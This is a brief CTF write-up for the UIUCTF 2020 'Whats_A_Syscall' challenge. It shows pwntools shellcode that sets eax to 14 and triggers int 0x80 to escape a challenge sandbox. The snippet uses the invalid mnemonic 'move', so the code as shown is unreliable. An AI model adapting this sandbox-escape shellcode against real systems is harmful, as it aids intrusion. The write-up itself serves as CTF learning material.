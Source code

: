 ```yaml
---
title: "UIUCTF 2020:Whats_A_Syscall 100"
date: DATE
draft: false
tags: ["ctf"]
description:  "Writing shellcode to call a special syscall"
---
```


This was the first challenge involving writing assembly. For the challenge. we have to call a special [syscall](https://github.com/sigpwny/pwnyOS-2020-docs/blob/master/Syscalls.pdf) to escape a sandbox. To call the syscall I used pwntools to compile the shellcode.

```python
from pwn import *
asm("move eax, 14")
asm("int 0x80")
asm("ret")
```

Setting `eax` to 14 is how we tell the kernel that we want to call the special syscall. Then interrupt 80 instruction tells the computer to execute the syscall.